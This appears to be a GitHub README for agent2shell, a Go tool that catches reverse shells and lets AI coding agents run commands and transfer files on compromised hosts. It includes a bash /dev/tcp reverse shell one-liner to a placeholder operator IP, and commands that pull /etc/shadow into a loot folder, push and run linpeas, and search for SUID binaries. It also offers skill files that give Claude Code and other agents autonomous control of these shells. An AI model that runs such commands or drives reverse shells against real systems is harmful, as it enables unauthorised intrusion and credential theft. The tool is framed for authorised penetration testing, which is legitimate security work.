

<p align="center">
  
  
</p>
<p align="center">
  <b>agent2shell</b> is a Go CLI interface between reverse shells and AI agents for AI-augmented security research and penetration testing.
</p>
<p align="center">
  <a href="https://github.com/0xmagic0/agent2shell/releases"></a>
  <a href="https://github.com/0xmagic0/agent2shell"></a>
  <a href="https://github.com/0xmagic0/agent2shell/blob/main/LICENSE"></a>
</p>
<hr>



Catches reverse shell connections over TCP, exposes them as structured JSON APIs via Unix domain sockets. AI agents, scripts, and CLI tools can execute commands, transfer files, and query session metadata. It provides clean output, exit codes, and timeouts.

## Quick Start

```bash
# Build
make build
sudo mv ./agent2shell /usr/local/bin/

# Terminal 1: catch a reverse shell
agent2shell catch -p 4444

# Target sends reverse shell
bash -c 'bash >& /dev/tcp/OPERATOR_IP/4444 0>&1'

# Terminal 2: your AI agent interacts with the reverse shell via the CLI
agent2shell run whoami
agent2shell run uname -a
agent2shell status
agent2shell push ./linpeas.sh /tmp/linpeas.sh
agent2shell pull /etc/shadow ./loot/shadow
```

## Architecture

<p align="center">
  
  
</p>

The operator runs `catch` to listen for a reverse shell. On connection, a Unix socket is created. Any process on the same machine can send commands through the socket. For remote setups, see [Remote Access via SSH Tunnel](#remote-access-via-ssh-tunnel).

## Commands

### catch

Catches a reverse shell and serves the Unix socket API. The operator can also type commands directly in the terminal.

```bash
agent2shell catch -p 4444
agent2shell catch -p 4444 --tag webserver
agent2shell catch -p 4444 --log /tmp/engagement.jsonl
agent2shell catch -p 4444 --auto-upgrade
```

Flags:
- `-p, --port` TCP port (default 4444)
- `-H, --host` bind address (default 0.0.0.0)
- `-t, --timeout` per-command timeout (default 30s)
- `--tag` session label for broadcast/list filtering
- `--log` JSONL file for recording all exec commands
- `--auto-upgrade` attempt sh → bash upgrade on connect

### run

Execute a command on the target.

```bash
agent2shell run whoami
agent2shell run ls -la /tmp
agent2shell run -t 60 "find / -perm -4000 2>/dev/null"
```

Output is streamed line-by-line as it arrives. For long-running commands, increase the timeout with `-t` (seconds):

```bash
agent2shell run -t 300 "/tmp/linpeas.sh"
```

Run local scripts on the target without writing to disk:

```bash
agent2shell run --stdin ./linpeas.sh                  # pipe to bash (default)
agent2shell run --stdin ./recon.py python3             # pipe to any interpreter
agent2shell run --stdin ./dump.php php                 # PHP, Perl, Ruby...
echo 'SELECT user();' | agent2shell run --stdin - mysql  # pipe from OS stdin
```

Flags:
- `-t, --timeout` command timeout in seconds (default 30)
- `--no-stream` buffer output and print all at once
- `--stdin, -i` pipe a local file as stdin (use `-` for OS stdin)

Exit codes 0-125 are forwarded from the remote command. Exit 124 means timeout, exit 126 means agent2shell error.

### status

Session metadata.

```bash
agent2shell status
agent2shell status --json
```

```
Remote:      10.0.1.5:48230
Shell:       bash
User:        www-data
Hostname:    target-web-01
OS:          linux
Arch:        amd64
Distro:      Ubuntu 22.04
Connected:   2026-04-23T10:30:00Z (5m ago)
Commands:    12
Recording:   yes
```

### list

List all active sessions.

```bash
agent2shell list
agent2shell list --json
```

### push / pull

File transfer via base64 chunking with MD5 checksum verification.

```bash
agent2shell push ./linpeas.sh /tmp/linpeas.sh
agent2shell pull /etc/shadow ./loot/shadow
```

Auto-detects available decoder on target: base64, openssl, python3, perl.

### broadcast

Execute a command across multiple sessions.

```bash
agent2shell broadcast --all whoami
agent2shell broadcast --tag webserver "ss -tlnp"
agent2shell broadcast --all --json id
```

### Targeting a specific session

When multiple sessions are active, use `-s` before the subcommand:

```bash
agent2shell -s /tmp/a2s-2.sock run whoami
agent2shell -s /tmp/a2s-2.sock status
```

Without `-s`, agent2shell auto-discovers. One session = used automatically. Multiple = error asking you to specify.

## Session Recording

Log all programmatic exec commands to a JSONL file:

```bash
agent2shell catch -p 4444 --log /tmp/engagement.jsonl
```

Each command produces one line:

```json
{"timestamp":"2026-04-23T14:21:56Z","command":"whoami","output":"ec2-user","exit_code":0,"duration_ms":2}
```

## Remote Access via SSH Tunnel

`catch` and `run` can work on the same machine, but for real engagements you typically want `catch` on an internet-exposed server and your AI agent running locally:

```
Target -> reverse shell -> EC2 (agent2shell catch) <- SSH tunnel <- Your laptop (AI agent)
```

Forward the Unix socket over SSH to use agent2shell locally as if the session were on your machine:

```bash
# On EC2: start listener
./agent2shell catch -p 4444

# On your laptop: forward the Unix socket
ssh -NL /tmp/a2s-ec2.sock:/tmp/a2s-1.sock -i key.pem user@EC2_IP

# Use agent2shell locally, same commands, remote session
agent2shell -s /tmp/a2s-ec2.sock run whoami
agent2shell -s /tmp/a2s-ec2.sock status
agent2shell -s /tmp/a2s-ec2.sock push ./tool /tmp/tool
```

## Skills

Skills are instruction files that teach AI coding agents how to use agent2shell. Copy them to your agent's skill directory:

```bash
cp -r skills/reverse-shell-agent ~/.claude/skills/     # Claude Code
cp -r skills/reverse-shell-agent ~/.opencode/skills/    # OpenCode
cp -r skills/reverse-shell-agent ~/.gemini/skills/      # Gemini CLI
```

| Skill | Purpose |
|-------|---------|
| [reverse-shell-agent](skills/reverse-shell-agent/SKILL.md) | Teaches an AI agent how to use agent2shell. Executing commands, transferring files, querying sessions, handling timeouts. Copy this to your agent to enable autonomous reverse shell interaction. |
| [dev-e2e-testing](skills/dev-e2e-testing/SKILL.md) | Development testing protocol. Provides a tmux-based setup to test agent2shell end-to-end locally after adding features or fixing bugs. For contributors, not end users. |

## Scripts

Infrastructure automation for development and testing.

| Script | Purpose |
|--------|---------|
| [ec2-create.sh](scripts/ec2-create.sh) | Spins up attacker + victim EC2 instances with networking, security groups, and SSH access. Designed for testing agent2shell over a real network with SSH tunnels. |
| [ec2-destroy.sh](scripts/ec2-destroy.sh) | Tears down all resources created by `ec2-create.sh`. |

## Installation

Linux and macOS only. Windows is not supported.

```bash
# From source
git clone https://github.com/0xmagic0/agent2shell.git
cd agent2shell
make build
sudo mv ./agent2shell /usr/local/bin/

# Or go install
go install github.com/0xmagic0/agent2shell/cmd/agent2shell@latest
```

Requires Go 1.22+. Single static binary, zero runtime dependencies.

## Building

```bash
make build              # Static binary
make test               # Unit tests with -race
make test-integration   # Integration tests
make test-e2e           # End-to-end tests
make lint               # golangci-lint
make fmt                # gofmt + goimports
```

## Design

- **Not a C2 framework.** A shell interface. Catches shells, makes them programmable.
- **Not an AI agent.** A clean bridge. Any agent connects through the socket.
- **Unix sockets for IPC.** Fast, no HTTP overhead, works with SSH forwarding.
- **Double-marker protocol.** Start + end markers with UUID for reliable command boundaries.

## Security Considerations

agent2shell runs on operator-controlled infrastructure, not on the target. The Unix socket, temp files, and all state live on the operator-controlled machine.

## License

[MIT](LICENSE)
